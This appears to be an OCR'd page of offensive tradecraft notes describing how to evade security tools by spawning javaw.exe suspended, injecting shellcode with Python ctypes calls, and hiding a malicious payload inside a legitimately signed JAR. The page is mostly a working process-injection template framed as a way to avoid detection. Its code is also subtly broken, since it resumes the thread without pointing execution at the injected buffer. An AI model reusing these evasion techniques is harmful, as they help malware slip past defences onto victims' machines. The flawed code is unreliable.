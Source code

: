 Solution: Instead of simply executing payloads through java64.exe, ensure that the process behaves like a legitimate Java application.

Implementation:

Spawn javaw.exe in a Suspended State, inject shellcode, and resume execution.

Modify Process Command-Line Arguments to mimic a real Java application (java -jar legitapp.jar).



Example (Process Injection into javaw.exe):
```python
import ctypes
import subprocess
import time

# Start Java in a suspended state
si = subprocess.STARTUPINFO()
si.dwFlags |= subprocess.STARTF_USESHOWWINDOW
pi = subprocess.Popen(
    ["C:\\Program Files\\Java\\jre1.8.0_281\\bin\\javaw.exe"],
    startupinfo=si,
    creationflags=subprocess.CREATE_SUSPENDED
)

time.sleep(2)  # Give it a moment to start

# Inject payload into Java process memory
payload = b"\xfc\xe8\x89\x00\x00\x00..."  # Replace with actual shellcode
ptr = ctypes.windll.kernel32.VirtualAllocEx(pi._handle, None, len(payload), 0x3000, 0x40)
ctypes.windll.kernel32.WriteProcessMemory(pi._handle, ptr, payload, len(payload), None)

# Resume process
ctypes.windll.kernel32.ResumeThread(pi._handle)
print("Injected into javaw.exe")
```
✔️ Benefit: Avoids detection by not running a suspicious java.exe instance directly from command line.


---

2. Hiding Malicious Java Code Inside a Signed JAR

Current Issue: Security tools can flag unsigned JAR files or suspicious Java execution.

Solution: Use a signed JAR from a trusted source and inject your payload into it.

Implementation:

Take a legitimate signed JAR (e.g., a well-known Java application).

Decompile it using JD-GUI or javap.

Inject reflection-based payload execution inside an inconspicuous class.


